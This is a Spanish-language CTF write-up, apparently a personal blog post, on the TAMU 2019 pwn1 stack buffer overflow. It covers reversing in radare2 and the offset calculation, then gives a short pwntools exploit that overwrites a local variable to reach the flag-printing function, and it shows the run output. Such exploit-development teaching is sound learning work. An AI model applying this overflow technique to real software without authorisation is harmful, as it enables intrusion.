 ```yaml
---
layout: post
title: TAMU 2019 pwn1 - BufferOverflow
author: c4rta
date: 2023-01-06
categories: [Explotacion binaria]
tags: [BoF stack based]
cover: /imgs/tamu-pwn1/waifu.webp
---
```

Tenemos un BoF stack based donde lo usaremos para sobrescribir el valor de una variable

El binario lo pueden descargar con:

```wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/tamu19_pwn1/pwn1```

## Analisis

El binario cuenta con las siguientes protecciones:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols	  No	0		2		pwn1
```
No tienec Canary asi que podemos intentar un buffer overflow, sin embargo tiene NX, asi que no podemos ejecutar una shellcode.

Aqui intente ejecutar el binario pasandole lo que sea y luego tratando de ocasionar un buffer overflow:

![](/imgs/tamu-pwn1/binario1.png)

Pero de ninguna forma funciono, asi que vamos a ver que esta pasando, para el reversing usare radare2

Y miren, aqui tenemos la funcion que recibe nuestro input:

![](/imgs/tamu-pwn1/radare1.png)

Lo mas descatable son las instrucciones:

- lea eax, [ebx - 0x159f]: Que lo que esta haciendo es cargar la direccion de memoria que esta contenida en ```ebx-0x159f```, esto significa que se está leyendo la dirección de memoria contenida en la ubicación de memoria apuntada por ebx-0x159f y luego cargando esa dirección en el registro eax. y lo que tiene esa direccion de memoria es nuestro input

- push eax: Luego nuestro input lo mete al stack

- lea eax, [ s1]: Esto hace lo mismo que ```lea eax, [ebx - 0x159f]``` pero ahora hay que tomar en cuenta que lo esta haciendo con lo que tiene la variable ```s1```, esta se esta declarando como ```var char *s1 @ ebp-0x3b``` y esta 56 bytes por debajo del ```EBP``` 

Despues tenemos una comparacion que es:

![](/imgs/tamu-pwn1/radare2.png)

Lo que hace primero con ```add``` es sumarle 16 bytes al ```ESP```, esto con el fin para ajustar la posicion del ```ESP``` en el stack. Despues con ```test```se hace una operacion AND bit a bit entre lo que le metimos como input y lo que tiene ```s1```, y esto sirve ya que despues tenemos la intruccion ```je``` que significa ```salta si es igual```, asi que si el input y ```si``` son iguales, la flag ```ZF``` se establece en 1 y salta a la direccion ```0x5655582f``` y si no, la ```ZF``` se establace en 0 y en este caso lo que pasa es que el programa se detiene como se puede ver aqui en esta imaguen que pinte jiji:

![](/imgs/tamu-pwn1/radare3.gif)

Si son iguales el programa sigue con la ejecucion desde la funcion ```0x5655582f``` (color amarillo), y si no simplemente hace un exit y se detiene (color rojo).

Despues en el programa tenemos otro input, pero es exactamente lo mismo que el que acabe de explicar, solo que la pregunta seria... ¿Cual es el valor de ```s1``` con el que nuestro input se esta comparando?, y lo que se me ocurrio a mi fue: si la variable ```s1``` se esta declarando como una variable global, entonces en la seccion .rodata de el binario debe de estar, esto es por que en .rodata se encuentran las variables inicializadas globalmente pero de solo lectura, entonces mostre la seccion .rodata con el comando ```iz```: 

![](/imgs/tamu-pwn1/radare4.png)

Y wow, ahora sabemos que nuestros inputs se estan comparando con ```Sir Lancelot of Camelot``` y ```To seek the Holy Grail```, y wow, esto es completamente inutil ya que no nos sirve para nada jaja, lo que en realidad nos sirve es lo que sigue y es donde dice:

```What... is my secret?```

Y aqui es otro input y su codigo en emsamblador es:

![](/imgs/tamu-pwn1/radare5.png)

Esto es un mas facil de analizar, simplemente compara lo que se almacena en```var_10h``` con el valor ```0xdea110c8``` y si son iguales manda a llama a la funcion ```sym.print_flag```, que basicamente es la que imprime la flag. 

Y para explotarlo, tenemos que hacer es sobreescribir el contenido de ```var_10``` usando ```gets```, pero no es tan obvio como parece, tenemos que tomar en cuenta en donde se ubican dos variables: ```var_10``` y ```s```, esto con el fin de saber el desplazamiento entre esas dos y saber cuantos bytes hay que meter.

Para saber donde esta ```var_10``` vemos la declaracion de la variable:

```var uint32_t var_10h @ ebp-0x10```

Esta esta 0x10 por debajo del EBP, es decir, 16 bytes.

Y para ```s1```:

```var char *s1 @ ebp-0x3b```

Esta a 0x3b, es decir, 59 bytes

Entonces tenemos un desplazamiento de 59 - 16 = 43, asi que debemos de escribir 43 bytes antes de sobreescribir la variable

## Exploit

```py
from pwn import *

target = process('./pwn1')

payload = b"A"*43 #Esto es el padding
payload += p32(0xdea110c8) #el valor por la cual la vamos a sobreescribir

target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

target.sendline(payload)
target.interactive()
```

Y listo

```
python3 exploit.py

[+] Starting local process './pwn1': pid 26329
/home/c4rta/Downloads/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("Sir Lancelot of Camelot")
/home/c4rta/Downloads/exploit.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz} --> la flag
```

Eso ha sido todo, gracias por leer ❤